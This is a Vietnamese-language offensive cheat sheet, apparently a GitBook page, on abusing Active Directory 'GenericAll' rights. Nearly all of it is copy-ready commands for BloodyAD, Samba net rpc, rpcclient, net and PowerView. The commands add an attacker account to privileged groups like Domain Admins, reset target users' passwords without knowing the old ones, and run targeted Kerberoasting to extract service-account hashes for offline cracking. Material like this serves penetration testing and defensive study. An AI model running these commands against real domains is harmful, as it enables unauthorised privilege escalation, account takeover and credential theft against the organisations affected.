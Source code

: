 # GenericAll

## GenericAl đối với Group

### Thao túng tài khoản (T1098)

**BloodyAD (Linux)**

Sử dụng BloodyAD để thêm người dùng vào nhóm đặc quyền.

{% code overflow="wrap" %}

```bash
bloodyAD --host "<dc_ip>" -d "<domain>" -u "<attacker_user>" -p "<attacker_password>" add groupMember "<target_group>" "<attacker_user>"
```

{% endcode %}

**Samba (Linux)**

Thêm người dùng vào nhóm đặc quyền (như Domain Admins) sử dụng Samba.

{% code overflow="wrap" %}

```bash
net rpc group addmem "<target_group>" <attacker_user> -U <domain>/<attacker_user>%<attacker_password> -S <dc_ip>
```

{% endcode %}

**Net Utility (Windows)**

Sử dụng lệnh net trên Windows để thêm người dùng vào nhóm đặc quyền.

```powershell
net group "<target_group>" <attacker_user> /add /domain
```

## GenericAll đối với User

### Đổi mật khẩu

**BloodyAD (Linux)**

Đặt lại mật khẩu của tài khoản mục tiêu mà không cần biết mật khẩu hiện tại.

{% code overflow="wrap" %}

```bash
bloodyAD --host "<dc_ip>" -d "<domain>" -u "<attacker_user>" -p "<attacker_password>" set password "<target_user>" "<new_password>"
```

{% endcode %}

#### Net RPC – **Samba (Linux)**

Đặt lại mật khẩu của tài khoản mục tiêu mà không cần biết mật khẩu hiện tại.

{% code overflow="wrap" %}

```bash
net rpc user <target_user> <new_password> -U <domain>/<attacker_user>%<attacker_password> -S <dc_ip>
```

{% endcode %}

**Rpcclient (Linux)**

Đặt lại mật khẩu của tài khoản mục tiêu mà không cần biết mật khẩu hiện tại.

{% code overflow="wrap" %}

```bash
rpcclient -U "<domain>/<attacker_user>%<attacker_password>" <dc_ip> -c "setuserinfo2 <target_user> 24 '<new_password>'"
```

{% endcode %}

**Net Utility (Windows)**

Đặt lại mật khẩu của tài khoản mục tiêu mà không cần biết mật khẩu hiện tại

```powershell
net user <target_user> <new_password> /domain
```

**PowerView (Windows)**

Đặt lại mật khẩu của tài khoản mục tiêu mà không cần biết mật khẩu hiện tại.

{% code overflow="wrap" %}

```powershell
$SecPassword = ConvertTo-SecureString '<attacker_password>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<domain>\<attacker_user>', $SecPassword)
Set-DomainUserPassword -Identity '<target_user>' -AccountPassword (ConvertTo-SecureString '<new_password>' -AsPlainText -Force) -Credential $Cred
```

{% endcode %}

### Kerberoasting

**TargetedKerberoast (Linux)**

Yêu cầu vé TGS từ tài khoản dịch vụ, trích xuất hash mật khẩu để bẻ khóa ngoại tuyến.

{% code overflow="wrap" %}

```bash
python3 targetedKerberoast.py -u <attacker_user> -p '<attacker_password>' -d <domain> --dc-ip <dc_ip>
```

{% endcode %}

#### **PowerView (Windows)**

Yêu cầu vé TGS từ tài khoản dịch vụ, trích xuất hash mật khẩu để bẻ khóa ngoại tuyến.

{% code overflow="wrap" %}

```powershell
$SecPassword = ConvertTo-SecureString '<attacker_password>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<domain>\<attacker_user>', $SecPassword)
Request-SPNTicket -Identity '<target_service_account>' -Credential $Cred
```

{% endcode %}

